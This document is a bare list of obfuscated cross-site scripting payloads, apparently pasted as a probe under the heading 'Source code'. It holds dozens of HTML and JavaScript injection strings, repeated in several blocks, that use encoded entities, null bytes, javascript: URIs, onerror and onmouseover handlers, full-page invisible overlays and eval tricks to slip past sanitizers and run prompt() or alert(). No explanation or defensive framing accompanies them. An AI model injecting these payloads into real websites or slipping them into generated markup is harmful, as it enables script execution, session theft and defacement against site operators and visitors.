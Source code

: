 <iframe %00 src="&Tab;javascript:prompt(122)&Tab;"%00>
<ScRipT 5-0*3+9/3=>prompt(2)</ScRipT giveanswerhere=?
</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(3)>
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
<img/src=@&#32;&#13; onerror = prompt('&#49;')
<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(4)
/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(5) /*iframe/src*/>
<a/href="javascript:&#13; javascript:prompt(6)"><input type="X">
</plaintext\></|\><plaintext/onmouseover=prompt(7)
<iframe style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(8)">
<var onmouseover="prompt(9)">On Mouse Over</var>
<img src="/" =_=" title="onerror='prompt(10)'">
<iframe/src \/\/onload = prompt(11)
<div style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(12)" onclick="alert(13)">x</button>
<iframe %00 src="&Tab;javascript:prompt(14)&Tab;"%00>
<ScRipT 5-0*3+9/3=>prompt(15)</ScRipT giveanswerhere=?
</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(17)>
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
<img/src=@&#32;&#13; onerror = prompt('&#49;')
<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(22)
/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(23) /*iframe/src*/>
<a/href="javascript:&#13; javascript:prompt(24)"><input type="X">
</plaintext\></|\><plaintext/onmouseover=prompt(25)
<iframe style="xg-p:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(26)">
<var onmouseover="prompt(27)">On Mouse Over</var>
<img src="/" =_=" title="onerror='prompt(28)'">
<iframe/src \/\/onload = prompt(29)
<div style="xg-p:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(30)" onclick="alert(1)">x</button>
0\"autofocus/onfocus=alert(1)--><video/poster/onerror=prompt(2)>"-confirm(3)-"
0\"autofocus/onfocus=alert(1)--><video/poster/ error=prompt(2)>"-confirm(3)-"
<iframe  src="&Tab;javascript:prompt(444)&Tab;">
<ScRipT 5-0*3+9/3=>prompt(124)</ScRipT giveanswerhere=?
<form><a href="javascript:\u0061lert&#x28;1&#x29;">X</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(2421)>
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
<img/src=@&#32;&#13; onerror = prompt('&#49;')
<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(1555)
/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(1251) /*iframe/src*/>
<a/href="javascript:&#13; javascript:prompt(4641)"><input type="X">
</plaintext\></|\><plaintext/onmouseover=prompt(001)
<iframe style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(166)">
<var onmouseover="prompt(1125)">On Mouse Over</var>
<img src="/" =_=" title="onerror='prompt(25252512)'">
<iframe/src \/\/onload = prompt(111111)
<div style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(252525)" onclick="alert(1)">x</button>
<iframe  src="&Tab;javascript:prompt(1)&Tab;">
<ScRipT 5-0*3+9/3=>prompt(1)</ScRipT giveanswerhere=?
</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(1)>
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
<img/src=@&#32;&#13; onerror = prompt('&#49;')
<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(180980)
/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(1125125) /*iframe/src*/>
<a/href="javascript:&#13; javascript:prompt(1125125)"><input type="X">
</plaintext\></|\><plaintext/onmouseover=prompt(1251251251)
<iframe style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1125125)">
<var onmouseover="prompt(1)">On Mouse Over</var>
<img src="/" =_=" title="onerror='prompt(1125125125)'">
<iframe/src \/\/onload = prompt(1251251)
<div style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(15555555)" onclick="alert(1)">x</button>
